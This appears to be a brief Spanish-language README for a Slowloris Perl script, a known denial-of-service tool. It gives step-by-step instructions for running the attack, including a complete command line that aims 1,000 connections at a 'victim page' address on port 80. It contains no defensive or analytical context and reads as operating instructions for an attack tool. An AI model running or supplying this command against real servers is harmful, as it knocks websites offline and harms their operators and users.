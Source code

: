 # Slowloris
 Instrucciones para la ejecucion del archivo 1.- Dirigete a la ubicacion en donde se encuentra el archivo 2.- Abre la terminal y ejecutalo de la siguiente manera: perl slowloris.pl -dns IpPaginaVictima -port 80 -timeout 1 -num 1000 -cache
